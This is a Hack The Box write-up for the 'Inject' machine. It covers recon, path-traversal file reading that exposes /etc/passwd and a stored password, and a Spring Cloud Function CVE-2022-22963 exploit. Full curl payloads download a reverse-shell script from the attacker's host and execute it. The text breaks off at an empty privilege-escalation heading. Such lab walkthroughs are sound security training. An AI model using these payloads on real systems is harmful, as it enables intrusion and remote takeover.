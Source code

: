 # Inject
Hack the Box - Machine - Inject - Easy

https://app.hackthebox.com/machines/Inject

Machine IP: 10.129.244.93

## Recon

1. I start all CTFs by running nmap to view open ports and include the flags for running default scripts (-sC) and probing open ports for service/version info (-sV)

![image](https://user-images.githubusercontent.com/130006051/230235341-7d9703a9-663d-4b15-b613-2d9512ded3ee.png)


2. Port 22 is almost always useless until we have credentials, so let's start with opening Burp Suite's browser and going to the machine on port 8080

3. I like to start browsing around by clicking all of the links. This helps build the directory tree in Burp Suite as well as lets me know which links actually work. On this site, there are a lot of links that are just anchors that don't actually go anywhere.

4. While I'm working through clicking all the things, I also like to start directory enumeration. For this one, I would use FFuF.

ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.129.244.93:8080/FUZZ

5. For this machine, I focused on the /upload page. Here you can upload an image and it provides you with a link to view that image.

![image](https://user-images.githubusercontent.com/130006051/230237802-8f78e61a-cae0-4b9d-a186-0c1fc616acc0.png)

![image](https://user-images.githubusercontent.com/130006051/230237856-baa19ea2-f602-4867-87c6-17f66b1849fa.png)

Before clicking "View your Image", turn on the intercept on Burp Suite

## Vulnerability
### Local File Inclusion

6. We can see that the image is stored at /show_image?img=<ImageName>. Send this GET request to the repeater.

7. Change the GET request to /show_image?img=../../../../../../etc/passwd and you see we get the /etc/passwd file. This is a good list to have as it helps with user enumeration.

![image](https://user-images.githubusercontent.com/130006051/230238964-dd298709-a649-4fe7-92c5-95318f7696f3.png)

8. At this point, I try to see how many directories I can get to. Especially home directories.

![image](https://user-images.githubusercontent.com/130006051/230239207-41fe3b12-531e-4993-bad6-fbd5c0319e84.png)

9. Search in both the user's directories for any information that may be valuable.

10. One piece of valuable information can be found at /home/frank/.m2/setting.xml. For some reason, Frank has Phil's username and password.

username: phil

password: DocPhillovestoInject123

11. Since I have a username and password, I like to try and log in using SSH, but no such luck this time.

12. While continuing to search through the website information using the LIF method, I found that the page was using [Spring Framework](https://spring.io).

![image](https://user-images.githubusercontent.com/130006051/230240670-cfb76bde-6c0f-480c-9c2a-30c58ae4d835.png)

## Exploit - Spring4Shell - CVE-2022-22963

https://sysdig.com/blog/cve-2022-22963-spring-cloud/

13. An easy test to see if this site is vulnerable to this exploit is by running a curl command to see if we can create a file within the /tmp directory which we'll check using the LFI in Burp.

curl -X POST -H "Host: 10.129.244.93:8080" -H "spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec('touch /tmp/test')" --data-binary "exploit_poc" "http://10.129.244.93:8080/functionRouter"

NOTE: The curl will return an error about a "Type conversion problem". This is okay. Check that the file was created in /tmp using Burp.

Looks like we have a winner! This means we can execute commands on the server. 

14. Now I need to upload a reverse shell and execute it to gain access to the server

[Generate the reverse shell payload](https://www.revshells.com/)

15. Start the listener

nc -lnvp 1337

16. Start python webserver in the directory that the reverse shell is located

python3 -m http.server 80

17. Upload the payload

curl -X POST -H "Host: 10.129.244.93:8080" -H "spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec('curl http://10.10.14.158:80/newshell.sh -o /tmp/newshell.sh')" --data-binary "exploit_poc" "http://10.129.244.93:8080/functionRouter"

18. Execute the reverse shell

curl -X POST -H "Host: 10.129.244.93:8080" -H "spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec('bash /tmp/newshell.sh')" --data-binary "exploit_poc" "http://10.129.244.93:8080/functionRouter"

19. We've got a shell!

![image](https://user-images.githubusercontent.com/130006051/230243773-d05f83c9-7eda-4ef0-846a-5fd27468466b.png)

20. The user.txt file is located at /home/phil/ but we are getting access denied when we try to read it. Luckily, we know Phil's password from our recon earlier.

su phil

21. This one is a little strange because we do not get a prompt back, but if we issue a few commands, we can verify we have a shell as Phil.

![image](https://user-images.githubusercontent.com/130006051/230244167-079f395a-ba4c-4058-bcd7-50027e507e38.png)

22. Now let's read the file and get the first flag!

cat user.txt

## Privilege Escalation
### Ansible Playbook Tasks

23. 
